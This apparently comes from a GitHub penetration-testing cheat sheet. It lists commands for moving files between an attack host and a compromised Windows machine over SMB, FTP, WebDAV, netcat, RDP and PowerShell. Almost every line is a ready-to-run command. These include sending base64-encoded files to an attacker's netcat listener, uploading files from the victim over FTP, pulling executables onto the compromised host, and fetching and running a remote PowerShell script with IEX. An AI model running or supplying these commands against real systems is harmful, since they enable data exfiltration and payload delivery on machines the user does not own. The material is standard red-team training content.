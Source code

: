 ```yaml
---
legal-banner: true
---
```


### **UPLOADING FILES VIA SMB (NO CREDENITIAL)**

1.  Setting Up an SMB Server:  
    `sudo impacket-smbserver hackfast -smb2support .`
2.  Map a Network Drive:  
    `net use z: \\[IP-ADRESS]\hackfast`
3.  Upload a File via SMB:   
    `copy file.txt z:\file.txt`

### **UPLOADING FILES VIA SMB (WITH CREDENTIALS)**

3.  Configure SMB Server Using impacket-smbserver  
    `sudo impacket-smbserver hackfast $(pwd) -smb2support -user hackfast -password hackfast`
4.  Configure SMB Server Using smbserver.py  
    `smbserver.py share . -smb2support -username hackfast -password hackfast`
5.  Map a Network Drive:  
    `net use z: \\[IP-ADRESS]\hackfast /user:hackfast hackfast`
6.  Upload File to Mapped Drive:  
    `copy file.txt z:\file.txt`

### **UPLOADING FILES VIA FTP**

1.  Setting Up Write-Enabled FTP Server:  
    `sudo python3 -m pyftpdlib --port 21 --write`
2.  Upload File Using PowerShell:  
    `(New-Object Net.WebClient).UploadFile('ftp://[IP-ADRESS]/file.txt', 'C:\Windows\Temp\file.txt')`
3.  Automating FTP Upload with Command File:  
    
    ![](../../img/Windows-Environment/1.png)

### **POWERSHELL BASE64 WEB UPLOAD WITH NETCAT**

1.  Encode the File to Base64 (On Windows):  
    `$filePath = 'C:\Windows\Temp\file_name'`  
    `$b64 = [System.Convert]::ToBase64String((Get-Content -Path $filePath -Encoding Byte))`
2.  Set Up the Netcat Listener to Capture the POST Request:  
    `nc -lvnp 8080 > received_b64.txt`
3.  Upload the Base64 String via HTTP POST:  
    `Invoke-WebRequest -Uri http://[IP-ADRESS]:8080/ -Method POST -Body $b64`
4.  Decode the Base64 String Received via Netcat:  
    `cat received_b64.txt | base64 -d > file_name`

### **UPLOADING A FILE TO A REMOTE SESSION**

1.  Create a PowerShell Remoting session:  
    `$Session = New-PSSession -ComputerName DATABASE01`
2.  Copy the file from your local machine to the remote session:  
    `Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`

### **UPLOADING FILES VIA WEBDAV**

1.  Install WebDav Server  
    `sudo pip3 install wsgidav cheroot`
2.  Start the WebDav Server  
    `sudo wsgidav --host=0.0.0.0 --port=8081 --root=/tmp --auth=anonymous`
3.  List Directory Contents:  
    `dir \\[IP-ADRESS]\DavWWWRoot`
4.  Copy File to WebDav Server:  
    `copy C:\Temp\file.zip \\[IP_ADRESS]\DavWWWRoot\`

### **NC UPLOADING A FILE (SENDING)**

- **ON THE ATTACK HOST (LISTENING):**
    
    1.  Using Netcat  
        `sudo nc -l -p 443 -q 0 < file_to_send.exe`
    2.  Using Ncat  
        `sudo ncat -l -p 443 --send-only < file_to_send.exe`
- **ON THE COMPROMISED MACHINE (CONNECTING):**
    
    1.  Using Netcat  
        `nc [IP-ADRESS] 443 > received_file.exe`
    2.  Using Ncat  
        `ncat [IP-ADRESS] 443 --recv-only > received_file.exe`

### **UPLOADING A FILE USING RDP (LINUX TO WINDOWS)**

1.  Using rdesktop:  
    `rdesktop [IP-ADDRESS] -u [USERNAME] -p [PASSWORD] -r disk:linux='/home/user/rdesktop/files`
2.  Using xfreerdp:  
    `xfreerdp /v:[IP-ADDRESS] /u:[USERNAME] /p:'[PASSWORD]' /drive:[NAME],[PATH]`

### **UPLOADING FILES USING POWERSHELL**

1.  `IEX(New-Object Net.WebClient).DownloadString('http://[IP-ADRESS]:8000/PSUpload.ps1')`
    
2.  `Invoke-FileUpload -Uri http://[IP-ADRESS]:8080/upload -File C:\Windows\Temp\file_name`